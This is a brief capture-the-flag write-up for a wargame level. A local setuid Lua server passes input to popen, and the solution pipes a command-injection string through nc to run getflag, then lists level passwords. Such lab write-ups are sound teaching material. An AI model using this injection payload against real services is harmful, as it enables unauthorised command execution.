 # Solve Level11
pass : feulo4b72j7edeahuete3no7c

## Description
- home
    - -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*

### level11.lua
- Try to execute but error : address already in use
  - ```ss -ln``` find 127.0.0.1:5151 is already used
    - the server is already start
      - ```curl localhost:5151``` ==> works
      - us nc instead of curl ```echo "useless;getflag > /tmp/lpo; something" | nc localhost 5151```
- The server listen for a var called 'l' and compare his checksum [sha1sum][df1] with a hard coded value.
  - according to wikipedia "The SHA-1 variants are proven vulnerable to [collision attacks][df2]"
    - looks like this type of attacks are to hard/expensive for us [last paper on collision in sha1][df3]
- find a vulnerability on popen which can be exploit with command injection 

## Solution
```bash
echo "useless;getflag > /tmp/lpo; something" | nc localhost 5151
cat /tmp/lpo
```

- flag11 : 
- level12 : fa6v5ateaw21peobuub8ipe6s


## Resolve problem


[df1]: https://en.wikipedia.org/wiki/Sha1sum
[df2]: https://en.wikipedia.org/wiki/Collision_attack
[df3]: https://eprint.iacr.org/2020/014.pdf